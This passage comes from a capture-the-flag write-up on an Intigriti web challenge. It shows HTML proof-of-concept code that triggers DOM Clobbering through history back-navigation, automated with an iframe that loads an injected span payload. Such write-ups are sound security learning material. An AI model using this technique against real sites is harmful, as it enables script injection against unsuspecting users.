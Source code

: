 ```html
    </script>
</body>

</html>
```

```html
<!-- back.html -->

<html>

<body>
    <script>
        const n = parseInt(new URLSearchParams(location.search).get("n"));
        history.go(-n);
    </script>
</body>

</html>
```

It works! And even better, this technique performs beautifully on both Chrome and Firefox, without depending on race conditions or outright sorcery. We now have a rock-solid way of triggering our DOM Clobbering.

This manual, button-click approach was useful for testing, but a more practical exploit wouldn't rely on user interaction. After I shared my `window.open` PoC, [@stealthcopter](https://x.com/stealthcopter) pointed out it could be automated using an `iframe`. This way, the entire process of loading the challenge page with the payload, waiting, and then triggering the back navigation (via an intermediate redirect of the `iframe`'s source to `back.html`) can happen silently in the background.

Here’s how that `iframe`-based approach looks:

```html
<html>

<body>
    <iframe id="content"></iframe>
    <script>
        document.getElementById('content').src = "https://challenge-0525.intigriti.io/index.html?name=%3Cspan%20id%3DCONFIG_SRC%20data-url%3D//abc%3E</div><strong>test"
        setTimeout(() => {
            document.getElementById('content').src = '/back.html?n=1'
        }, 5000)
    </script>
</body>

</html>
```

> By the way, this is not the intended solution!

# The Rabbit Hole
